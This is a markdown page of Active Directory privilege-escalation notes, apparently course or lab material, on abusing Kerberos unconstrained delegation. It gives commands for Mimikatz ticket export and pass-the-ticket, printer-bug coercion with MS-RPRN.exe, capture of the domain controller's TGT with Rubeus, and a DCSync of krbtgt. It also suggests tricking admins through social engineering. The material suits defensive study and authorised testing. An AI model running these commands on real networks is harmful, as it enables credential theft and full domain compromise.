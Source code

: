 # Domain Privilege Escalation - Delegations

- [Domain Privilege Escalation - Delegations](#domain-privilege-escalation---delegations)
  - [Kerberos Delegation](#kerberos-delegation)
  - [Unconstrained Delegation](#unconstrained-delegation)
  - [Leveraging Unconstrained Delegation](#leveraging-unconstrained-delegation)
  - [Printer Bug](#printer-bug)

----

## Kerberos Delegation

Kerberos Delegation allows to "*reuse the end-user credentials to access resources hosted on a different server*". This is typically useful in multi-tier service or applications where Kerberos Double Hop is required.

For example, a user authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user (impersonation) and not as the web server's service account.

Please note that, for the above example, **the service account for web service must be trusted for delegation** to be able to make requests as a user.

There are two types of Kerberos Delegation:

1. **General/Basic** or **Unconstrained Delegation** which allows the first hop server (web server in our example) to **request access to any service on any computer in the domain**.<br/>
2. **Constrained Delegation** which allows the first hop server (web server in our example) to request access **only to specified services on specified computers**.

<br/>

## Unconstrained Delegation

![picture 40](images/7c264278d9152e03ee5463b5f21a9991e9d4e49621f771068c2067791f1bbe2a.png)  

1. A user provides credentials to the Domain Controller. 
2. The DC returns a TGT. 
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS. 
5. The user sends the TGT and TGS to the web server. 
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.

<br/>

When unconstrained delegation is enabled, **the DC places user's TGT inside TGS** (Step 4 in the previous diagram). 

When presented to the server with unconstrained delegation, **the TGT is extracted from TGS and stored in LSASS**. This way the server can reuse the user's TGT to access any other resource as the user.

This could be used to escalate privileges in case **we can compromise the computer with unconstrained delegation and a Domain Admin connects to that machine**.

<br/>

![picture 41](images/5b096f586226c250380adffac2c4cb0f60e4f0d6221d73da29bb9804185450a0.png)  

<br/>

## Leveraging Unconstrained Delegation

Discover domain computers which have unconstrained delegation enabled.

- PowerView

```
Get-DomainComputer -UnConstrained
```

- AD Module

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

```
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

<br/>

Compromise the server(s) where Unconstrained delegation is enabled. We must **`trick`** a domain admin or other high privilege user to connect to a service on us-web.

After the connection, we can export TGTs using the below command:

```
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

The ticket could be reused:

```
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

<br/>

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Social Engineering way!

![picture 42](images/b1d8c5f21d28197255c9f72d2d3d0f405a6737d771aa728ab9967f35fbecc88f.png)  

<br/>

## Printer Bug

![picture 43](images/9f6c90efda5fd1eda724495f467277fe9d8b005e2428d067bae9cc1648d2a1db.png)  

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!

A feature of **MS-RPRN** which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

Abusing Printer Bug (yes the attacker is wearing a Balaclava :P)

![picture 44](images/b1823cb42d9679aaf6922a5e02e74c8e8d920b44985538fbc235fa5086c73b9d.png)  

<br/>

Let's use **MS-RPRN.exe** (https://github.com/leechristensen/SpoolSample) on `usweb`:

```
.\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

<br/>

We can capture the TGT of `us-dc$` by using `Rubeus` (https://github.com/GhostPack/Rubeus) on `us-web`:

```
.\Rubeus.exe monitor /target:US-DC$ /interval:5 /nowrap
```

<br/>

Copy the base64 encoded TGT, remove extra spaces and use it on the attacker' machine:

```
.\Rubeus.exe ptt /ticket:<base64-string>
```

Or you can use `Invoke-Mimikatz`:

```
[IO.File]::WriteAllBytes("C:\AD\Tools\USDC.kirbi", [Convert]::FromBase64String("<base64_string_from_Rubeus_monitor>"))

Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\USDC.kirbi"'
```

<br/>

Then run DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

<br/>

